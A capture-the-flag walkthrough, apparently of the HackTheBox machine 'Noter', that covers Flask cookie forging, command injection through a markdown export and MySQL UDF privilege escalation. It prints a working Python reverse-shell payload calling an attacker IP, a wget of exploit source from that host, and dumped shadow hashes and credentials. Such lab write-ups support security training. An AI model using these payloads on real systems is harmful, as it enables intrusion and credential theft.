





USER
Step 1
nmap:
➜ noter nmap -p- -Pn 10.10.11.160 -v
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
5000/tcp open upnp
➜ noter nmap -Pn -n -sCV -p21,22,5000 10.10.11.160
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 c6:53:c6:2a:e9:28:90:50:4d:0c:8d:64:88:e0:08:4d (RSA)
| 256 5f:12:58:5f:49:7d:f3:6c:bd:9b:25:49:ba:09:cc:43 (ECDSA)
|_ 256 f1:6b:00:16:f7:88:ab:00:ce:96:af:a6:7e:b5:a8:39 (ED25519)
5000/tcp open http Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Noter
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
➜ noter sudo nmap -sU --top-port=50 --open 10.10.11.160
PORT STATE SERVICE
68/udp open|filtered dhcpcFTP is always fun, however from nmap it doesn’t seem like anonymous logins are enabled. Checking this manually confirms that’s the case.
Werkzeug has a known code execution if debug is enabled, quickly check with script in Kali.
➜ Downloads python2 /usr/share/exploitdb/exploits/multiple/remote/43905.py 10.10.11.160 5000 10.10.14.26 4488
[-] Debug is not enabledBrowse port 5000 and we are met with a very simple page. 
Trying bacis authentication bypasses doesn’t give anything, so instead we create an account with credentials admin:admin.
When posting a new note, pressing the ? icon we find the information CKEditor 4.6.2 (revision 20af917). Googling around it seems to be vulnerable to XSS, although the post seems to be done with a CDN, so not local and should not be seen as a attack vector.
<script src="//cdn.ckeditor.com/4.6.2/basic/ckeditor.js"></script>
<script type="text/javascript">
CKEDITOR.replace('editor')
</script>After some enumeration I finally found that the login validates if the username is correct or not. Trying to login with an invalid user gives the error Invalid credentials, however trying a valid user and wrong password gives Invalid login.
With this information we send the login to Burp Intruder, add the two strings to “Grep - Match” and brute force the user using Burp built-in Usernames list.

Admin is my registered user, however blue is not - we found a valid user!
Step 2
Next we need to find the credentials for user blue, we can try to brute force the login which would cause a lot of noice, but we can also try to to crack the JWT (as it’s HMAC).

Running webanalyze we find that Flask is running on the backend. Reading through HackTricks about Flask we find the tool Flask-Unsign which is used to fetch, decode, brute-force and craft session cookies of Flask applications - perfect!
➜ webanalyze ./webanalyze -host http://10.10.11.160:5000
http://10.10.11.160:5000 (0.1s):
Bootstrap, (UI frameworks)
Flask, 2.0.2 (Web frameworks, Web servers)
Python, (Programming languages)
Python, 3.8.10 (Programming languages)➜ noter flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZiJ9.YosnvA.92mU6dpP4-5opRXc6h2EhLq8hVI'
{'logged_in': True, 'username': 'asdf'}
➜ noter flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZiJ9.YosnvA.92mU6dpP4-5opRXc6h2EhLq8hVI' --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': 'asdf'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17152 attempts
b'secret123'
➜ noter flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yos0Lw.Lp1b4zGs-GrDuPvgxv2kkkC3qzEChange the browser session cookie and refresh the page, and boom we are blue! Note: As a VIP user we can Import and Export notes.

Step 3
Blue have two notes and in one of them we find the clear text credentials to the FTP - blue:blue@Noter! But we also find the username ftp_admin.
Login to the FTP using found credentials. Within we find the file policy.pdf, download the file and review it.
➜ noter ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:void): blue
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x 2 1002 1002 4096 May 02 23:05 files
-rw-r--r-- 1 1002 1002 12569 Dec 24 20:59 policy.pdf
226 Directory send OK.
ftp> mget *
mget policy.pdf? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for policy.pdf (12569 bytes).
226 Transfer complete.
12569 bytes received in 0.00 secs (9.2992 MB/s)The pdf is a password policy, and within we find the line; “Default user-password generated by the application is in the format of”username@site_name!” (This applies to all your applications)“
We can try if this applies to ftp_admin:ftp_admin@Noter! as well.
➜ noter ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:void): ftp_admin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 1003 1003 25559 Nov 01 2021 app_backup_1635803546.zip
-rw-r--r-- 1 1003 1003 26298 Dec 01 05:52 app_backup_1638395546.zip
226 Directory send OK.
ftp> mget *
mget app_backup_1635803546.zip? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for app_backup_1635803546.zip (25559 bytes).
226 Transfer complete.
25559 bytes received in 0.03 secs (783.7460 kB/s)
mget app_backup_1638395546.zip? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for app_backup_1638395546.zip (26298 bytes).
226 Transfer complete.
26298 bytes received in 0.03 secs (811.6058 kB/s)Step 4
Review the backup files app_backup_1638395546 and we find.. .. MySQL Config - app.py
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'DB_user'
app.config['MYSQL_PASSWORD'] = 'DB_password'
app.config['MYSQL_DB'] = 'app'Review the older backup, app_backup_1635803546, and we find.. .. MySQL Config - app.py
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'Looking on the import and export functions we find and dangerous subprocess with shell=True, we can most likely exploit this function to get a reverse shell.
# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
if check_VIP(session['username']):
try:
url = request.form['url']
status, error = parse_url(url)
if (status is True) and (error is None):
try:
r = pyrequest.get(url,allow_redirects=True)
rand_int = random.randint(1,10000)
command = f"node misc/md-to-pdf.js $'{r.text.strip()}' {rand_int}"
subprocess.run(command, shell=True, executable="/bin/bash")Create a python3 revshell in a markdown file, and break the command synax as seen above, to execute our malicious revshell.
➜ noter cat rev.md
';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.26",4488));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' # 'Export the file and grab the shell.

➜ noter python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.160 - - [23/May/2022 10:39:35] "GET /rev.md HTTP/1.1" 200 -
➜ noter nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.11.160] 50188
/bin/sh: 0: can't access tty; job control turned off
$ id && hostname
uid=1001(svc) gid=1001(svc) groups=1001(svc)
noter
$ cat user.txt
39482bdad8ae80f8eb950cab59f5ffc2ROOT
Step 1
My first finding was the backup script backup.sh, and within we see the astirix being used. Here I spent some time looking if it was possible to exploit using shell globbing but to no avail.
svc@noter:/$ ls -al /opt
total 12
drwxr-xr-x 2 root root 4096 May 2 23:05 .
drwxr-xr-x 19 root root 4096 May 2 23:05 ..
-rwxr--r-- 1 root root 137 Dec 30 09:41 backup.sh
svc@noter:/$ cd opt
svc@noter:/opt$ cat backup.sh
#!/bin/bash
zip -r `echo /home/svc/ftp/admin/app_backup_$(date +%s).zip` /home/svc/app/web/* -x /home/svc/app/web/misc/node_modules/**\*Instead I moved on to the MySQL database, to which we found root credentials in one of the backup files. (root:Nildogg36)
Download the privesc https://www.exploit-db.com/exploits/1518 and write it to file, raptor_udf2.c. We meet all the criterias as we can login to MySQL as root. Create a user defined function for code execution and grab sensitive files and/or setup a reverse shell.
svc@noter:/dev/shm$ wget http://10.10.14.26/raptor_udf2.c
svc@noter:/dev/shm$ gcc -g -c raptor_udf2.c
svc@noter:/dev/shm$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
svc@noter:/dev/shm$ ls -al
drwxrwxrwt 3 root root 120 May 23 11:39 .
drwxr-xr-x 20 root root 4040 May 23 10:46 ..
drwx------ 4 root root 80 May 23 10:46 multipath
-rw-r--r-- 1 svc svc 4920 May 23 11:39 raptor_udf2.c
-rw-r--r-- 1 svc svc 7432 May 23 11:39 raptor_udf2.o
-rwxr-xr-x 1 svc svc 19360 May 23 11:39 raptor_udf2.so
svc@noter:~/app/web$ mysql --user=root -p --host localhost
Enter password: Nildogg36
MariaDB [(none)]> use mysql;
MariaDB [mysql]> show variables like '%plugin%';
show variables like '%plugin%';
+-----------------+---------------------------------------------+
| Variable_name | Value |
+-----------------+---------------------------------------------+
| plugin_dir | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma |
+-----------------+---------------------------------------------+
2 rows in set (0.001 sec)
MariaDB [mysql]> create table foo(line blob);
create table foo(line blob);
Query OK, 0 rows affected (0.006 sec)
MariaDB [mysql]> insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
Query OK, 1 row affected (0.003 sec)
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
adb19/plugin/raptor_udf2.so';le '/usr/lib/x86_64-linux-gnu/mari
Query OK, 1 row affected (0.001 sec)
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
o';ate function do_system returns integer soname 'raptor_udf2.s
Query OK, 0 rows affected (0.001 sec)
MariaDB [mysql]> select * from mysql.func;
select * from mysql.func;
+-----------+-----+----------------+----------+
| name | ret | dl | type |
+-----------+-----+----------------+----------+
| do_system | 2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
MariaDB [mysql]> select do_system('cat /root/root.txt > /dev/shm/flag.txt; chown svc:svc /dev/shm/flag.txt');
svc:svc /dev/shm/flag.txt');oot.txt > /dev/shm/flag.txt; chown
+--------------------------------------------------------------------------------------+
| do_system('cat /root/root.txt > /dev/shm/flag.txt; chown svc:svc /dev/shm/flag.txt') |
+--------------------------------------------------------------------------------------+
| 0 |
+--------------------------------------------------------------------------------------+
1 row in set (0.003 sec)
MariaDB [mysql]> select do_system('cat /etc/shadow > /dev/shm/shadow; chown svc:svc /dev/shm/shadow');
svc /dev/shm/shadow');/etc/shadow > /dev/shm/shadow; chown svc:
+-------------------------------------------------------------------------------+
| do_system('cat /etc/shadow > /dev/shm/shadow; chown svc:svc /dev/shm/shadow') |
+-------------------------------------------------------------------------------+
| 0 |
+-------------------------------------------------------------------------------+
1 row in set (0.004 sec)Reap the rewards and prosper.
svc@noter:/dev/shm$ ls -al
ls -al
total 44
drwxrwxrwt 3 root root 200 May 23 13:05 .
drwxr-xr-x 20 root root 4040 May 23 12:51 ..
-rw-rw---- 1 svc svc 33 May 23 13:02 flag.txt
-rw-rw---- 1 svc svc 152 May 23 13:01 ls
drwx------ 4 root root 80 May 23 12:51 multipath
-rw-r--r-- 1 svc svc 3300 May 23 12:51 raptor_udf2.c
-rw-r--r-- 1 svc svc 7432 May 23 12:54 raptor_udf2.o
-rwxr-xr-x 1 svc svc 19360 May 23 12:54 raptor_udf2.so
-rw-rw---- 1 svc svc 1474 May 23 13:05 shadow
svc@noter:/dev/shm$ cat ls
total 8
drwx------ 2 root root 4096 May 2 23:05 .
drwx------ 9 root root 4096 May 2 23:05 ..
-rw------- 1 root root 0 Dec 21 20:38 authorized_keys
svc@noter:/dev/shm$ cat flag.txt
6c96f935fcd96c108b9abaa111e3c613
svc@noter:/dev/shm$ cat shadow
root:$6$09RSjU3jIh/2JW1u$8jlcYzW5Oyzgh/TrlTPX5Wq2HMTA6zUooij/9j0.NIttTYp4x0h6wmq8chrcdtvNpZzHlHzwsI8GesOKI3NYn.:18991:0:99999:7:::
svc:$6$gTM.AIsgDue4r5AQ$wUBfUtg7/svAcRTnsFv51KuMpeNP0cL6vqIR3608pzd0YsNNe0oxMwvY7iAGMCgMp7viiBLUwUaAZx4r6ljME/:18988:0:99999:7:::
ftp_admin:$6$gQyFQc6w7p83bBwZ$6zYRlPKPBp6GMgUI5mbojxOvyup7hqrQ5hfscnLkwvIimC6qO5a0taiju1vYQPSnzf.mO5TgCdo.5RiO9Gu7J0:19114:0:99999:7:::
blue:$6$pNud9u/1PdD8qPYi$cSe5FPCRGH5xjUiEMJ5tXSclSrWSz7gimtR2IcXiiVk0xNfSACcVgU3C4z69RnZHEQKrNO/hIiUQdVTqlxb29.:19114:0:99999:7:::References
Privesc, MySQL User Defined Functions https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf https://www.exploit-db.com/exploits/1518